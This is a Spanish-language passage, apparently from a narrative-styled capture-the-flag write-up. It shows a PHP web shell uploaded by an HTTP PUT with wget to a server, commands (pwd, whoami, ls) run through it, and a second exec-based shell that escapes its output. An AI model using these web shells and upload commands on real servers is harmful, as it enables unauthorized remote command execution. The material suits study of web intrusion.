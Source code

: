 ```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="<?php system($_GET['cmd']); ?>" http://34.247.69.86:8080/mishell123.php
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:39:28 GMT
  Content-Length: 0
  Location: http://34.247.69.86/mishell123.php
  Connection: keep-alive
```

Incluso se podría crear un *script* de PHP un poco más elaborado para que el resultado *quedase bonito* también en el navegador. Tan solo hay que sustituir **system** por [exec](http://php.net/manual/es/function.exec.php), que permite capturar la salida del comando, y emitir el resultado entre etiquetas **PRE** con los caracteres especiales de HTML debidamente escapados. Como se compondría de varias líneas, `--body-data` ya no sería adecuado, sino que se usaría `--body-file` como en `--body-file=shell.php`. Sin embargo, si la salida del comando pasado a **exec** fuese binaria y no textual, la combinación con las etiquetas **PRE** ocasionaría problemas.

```php
<pre>
<?php
$output = array();
exec($_GET["cmd"], $output);
echo htmlspecialchars(implode("\n", $output));
?>
</pre>
```

El código simple `<?php system($_GET['cmd']); ?>` cumple su cometido. El resultado no puede ser más alentador. El sectario celebra con entusiasmo.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=pwd
/var/www/html

Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=whoami
nginx
```

La sombra primigenia se materializa definitivamente en una criatura monstruosa que toma el control de la máquina, al menos hasta donde la propia cuenta de usuario **nginx** tenga alcance. Un **ls** no enseña nada fuera de lo común aparte de los ficheros de prueba ya subidos.

```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=ls
hailhydra
hailhydra.php
infooooo.php
mishell123.php
```

No obstante, el listado simple podría no mostrar todos los archivos existentes. Por convenio, aquellos cuyo nombre comienza por un punto se consideran ocultos, de modo que se ha de usar la opción `-a` de **ls** para que aparezcan, o se les puede nombrar con el comodín `.*` que el *shell* se encargará de expandir. Nótese que el espacio se debe transformar en el carácter `+` o en su codificación `%20` para que el servidor lo interprete correctamente. En esta ocasión, aguarda una sorpresa.
